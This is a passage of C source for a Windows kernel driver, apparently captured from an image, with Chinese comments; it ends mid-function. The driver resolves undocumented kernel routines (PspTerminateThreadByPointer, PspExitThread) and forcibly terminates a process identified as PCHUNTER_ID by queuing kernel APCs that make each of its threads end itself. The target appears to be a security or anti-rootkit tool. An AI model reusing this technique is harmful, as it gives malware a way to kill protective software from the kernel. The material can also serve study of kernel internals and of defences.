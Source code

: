 ```c
    PVOID *SystemArgument2);
fpTypePspExitThread g_fpPspExitThreadAddr = NULL;
NTSTATUS DriverEntry(PDRIVER_OBJECT pDriver, PUNICODE_STRING pPath)
{
    DbgBreakPoint();
    pDriver->DriverUnload = DriverUnload;
    //提前把函数查找出来
    ULONG uPspTerminateThreadByPointerAddr =  GetPspTerminateThreadByPointer();
    if (0 == uPspTerminateThreadByPointerAddr)
    {
        KdPrint(("查找PspTerminateThreadByPointerAddr地址出错\n"));
        return STATUS_SUCCESS;
    }
    g_fpPspExitThreadAddr = (fpTypePspExitThread)GetPspExitThread(uPspTerminateThreadByPointerAddr);
    if (NULL == g_fpPspExitThreadAddr)
    {
        KdPrint(("查找PspExitThread地址出错\n"));
        return STATUS_SUCCESS;
    }
    //
    PEPROCESS pProcess = LookupProcess((HANDLE)PCHUNTER_ID);
    if (NULL == pProcess)
    {
        KdPrint((("没有在PsCidTable中找到进程,尼玛不会隐藏了吧\n")));
    }
    else
    {
        KillProcess(pProcess);
    }
    return STATUS_SUCCESS;
}
VOID DriverUnload(PDRIVER_OBJECT pDriver)
{
    KdPrint(("驱动退出\n"));
}
PEPROCESS LookupProcess(HANDLE hPid)
{
    PEPROCESS pEProcess = NULL;
    if (NT_SUCCESS(PsLookupProcessByProcessId(hPid, &pEProcess)))
        return pEProcess;
    return NULL;
}
VOID KillProcess(PEPROCESS pEProcess)
{
    PEPROCESS pEProc = NULL;
    PETHREAD  pEThrd = NULL;
    ULONG i = 0;
    for (i = 4; i < 0x25600; i += 4)
    {
        pEThrd = LookupThread((HANDLE)i);
        if (!pEThrd)  continue;
        pEProc = IoThreadToProcess(pEThrd);
        if (pEProc == pEProcess)
        {
            PKAPC pApc = NULL;
            pApc = (PKAPC)ExAllocatePool(NonPagedPool, sizeof(KAPC));
            if (NULL == pApc) return;
            //插入内核apc
            KeInitializeApc(pApc, (PKTHREAD)pEThrd, OriginalApcEnvironment, (PKKERNEL_ROUTINE)&SelfTerminateThread, NULL, NULL, 0, NULL);
            KeInsertQueueApc(pApc, NULL, 0, 2);
        }
```